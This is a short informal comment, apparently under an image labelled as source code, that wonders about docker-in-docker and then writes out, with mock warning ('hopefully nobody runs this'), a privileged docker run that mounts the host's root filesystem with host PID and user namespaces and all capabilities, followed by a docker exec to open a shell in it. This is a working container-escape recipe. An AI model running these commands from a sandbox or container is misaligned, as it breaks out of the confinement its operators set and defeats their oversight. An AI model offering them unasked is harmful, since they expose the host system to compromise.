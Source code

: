 Wait a minute docker in docker?
Run docker ps to check...
Wait but isn't this a docker container?
Aw man hopefully nobody runs this command to mount the host file system into a differnet docker container
docker run -d -v /:/host --name escape --privileged --cap-add=ALL --pid=host --userns=host ubuntu sleep 3600
And then this command to log into it
docker exec -it escape /bin/bash
